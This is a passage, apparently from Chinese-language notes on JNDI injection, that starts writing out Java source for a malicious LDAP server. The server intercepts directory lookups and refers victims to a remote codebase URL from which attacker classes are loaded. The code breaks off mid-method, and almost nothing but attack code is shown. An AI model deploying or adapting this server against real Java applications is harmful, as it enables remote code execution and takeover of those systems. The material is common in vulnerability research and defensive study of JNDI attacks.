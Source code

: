 思路和配合RMI进行攻击是一样的

先起一个LDAP服务

```
package JNDI.ldap;

import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;

import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

public class server {

    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main ( String[] tmp_args ) {
        String[] args=new String[]{"http://127.0.0.1:8081/#test"};
        int port = 7777;

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
                    port,
                    ServerSocketFactory.getDefault(),
                    SocketFactory.getDefault(),
                    (SSLSocketFactory) SSLSocketFactory.getDefault()));

            config.addInMemoryOperationInterceptor(new OperationInterceptor(new URL(args[ 0 ])));
            InMemoryDirectoryServer ds = new InMemoryDirectoryServer(config);
            System.out.println("Listening on 0.0.0.0:" + port); //$NON-NLS-1$
            ds.startListening();

        }
        catch ( Exception e ) {
            e.printStackTrace();
        }
    }

    private static class OperationInterceptor extends InMemoryOperationInterceptor {

        private URL codebase;

        public OperationInterceptor ( URL cb ) {
            this.codebase = cb;
        }

        @Override
        public void processSearchResult ( InMemoryInterceptedSearchResult result ) {
            String base = result.getRequest().getBaseDN();
```